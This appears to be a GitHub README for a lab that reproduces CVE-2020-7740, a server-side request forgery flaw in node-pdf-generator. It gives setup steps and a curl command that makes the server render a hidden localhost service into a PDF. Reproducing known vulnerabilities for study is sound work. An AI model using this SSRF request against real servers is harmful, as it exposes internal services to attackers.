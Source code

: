 # CVE-2020-7740

This affects all versions of package [`node-pdf-generator`](https://github.com/darrenhaken/node-pdf-generator). Due to lack of user input validation and sanitization done to the content given to node-pdf-generator, it is possible for an attacker to craft a url that will be passed to an external server allowing an SSRF attack.


[Source](https://nvd.nist.gov/vuln/detail/CVE-2020-7740)


## Quick start with docker
1. Build the container with 
2. Run the container with `docker run -p 3000:3000 cve-2020-7740`
3. Notice that we cannot visit [`localhost:3001`](http://localhost:3001) directly
4. Send the request with curl using `curl --location --request GET localhost:3000/test --data-raw http://localhost:3001 --output test.pdf`
5. View `test.pdf` to view the localhost website that is supposed to be hidden.

## Quick start Without docker
1. Clone the project using `git clone {link to be inserted}`
2. Install the dependencies from `https://wkhtmltopdf.org/`
3. Start the server using `node .\node-pdf-generator-server` the server will be running at `localhost:3000`
4. Install the requirements of the hidden python server using `python -m pip install -r requirements.txt`
5. Start the hidden server using `python "hidden service"` the server will be running at ['localhost:3001`](http://localhost:3001)



# How does it work?
1. A get request with a body is sent to the server. This can be sent using `curl --location --request GET localhost:3000/test --data-raw http://www.google.com --output test.pdf`
2. This will save a copy of the html page of `http://www.google.com` to the file `test.pdf`


# Why is it vulnerable?
1. The server is vulnerable to SSRF attacks
2. Other URLs that is fed to the server will be visited by the server
3. This allows the user forge a server request


# More information on the CVE-2020-7740
1. [Vicarius.io](https://www.vicarius.io/research-center/vulnerability/cve-2020-7740-id264841)
2. [NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-7740)
3. [Original Repository](https://github.com/darrenhaken/node-pdf-generator)


